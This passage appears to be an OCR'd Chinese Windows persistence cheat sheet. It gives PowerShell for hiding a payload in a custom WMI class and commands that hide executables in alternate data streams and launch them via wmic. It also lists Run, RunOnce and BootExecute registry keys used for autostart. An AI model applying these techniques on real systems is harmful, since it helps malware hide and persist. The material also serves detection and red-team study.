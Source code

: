 ##### 2、常用的存储Payload位置

**WMI** : 存储：


$StaticClass = New-Object Management.ManagementClass('root\\cimv2', $null,$null)-
$StaticClass.Name = 'Win32\_Command'-
$StaticClass.Put()-
$StaticClass.Properties.Add('Command' , $Payload)-
$StaticClass.Put() -

读取:

1-

$Payload=(\[WmiClass\] 'Win32\_Command').Properties\['Command'\].Value-

**包含数字签名的PE文件** 利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名 **特殊ADS** …

1-
2-

type putty.exe > ...:putty.exe-
wmic process call create c:\\test\\ads\\...:putty.exe-

特殊COM文件

1-
2-

type putty.exe > \\\\.\\C:\\test\\ads\\COM1:putty.exe-
wmic process call create \\\\.\\C:\\test\\ads\\COM1:putty.exe-

磁盘根目录

1-
2-

type putty.exe >C:\\:putty.exe -
wmic process call create C:\\:putty.exe-

##### 3、Run/RunOnce Keys

用户级

HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run-
HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce-

管理员

HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run-
HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce-
HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run-

##### 4、BootExecute Key

由于smss.exe在Windows子系统加载之前启动，因此会调用配置子系统来加载当前的配置单元，具体注册表键值为：

HKLM\\SYSTEM\\CurrentControlSet\\Control\\hivelist-
HKEY\_LOCAL\_MACHINE\\SYSTEM\\ControlSet002\\Control\\Session Manager-
